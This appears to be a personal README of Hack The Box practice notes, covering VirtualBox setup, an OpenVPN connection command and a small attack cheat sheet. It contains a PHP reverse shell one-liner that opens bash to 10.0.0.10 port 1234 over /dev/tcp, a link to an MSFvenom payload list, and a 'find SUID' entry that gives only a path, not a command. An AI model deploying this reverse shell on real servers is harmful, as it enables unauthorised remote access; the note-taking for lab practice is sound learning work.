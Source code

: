 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatShhet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Privilege escalation

#### find SUID 

```shell
/var/htb/bin/emergency
```
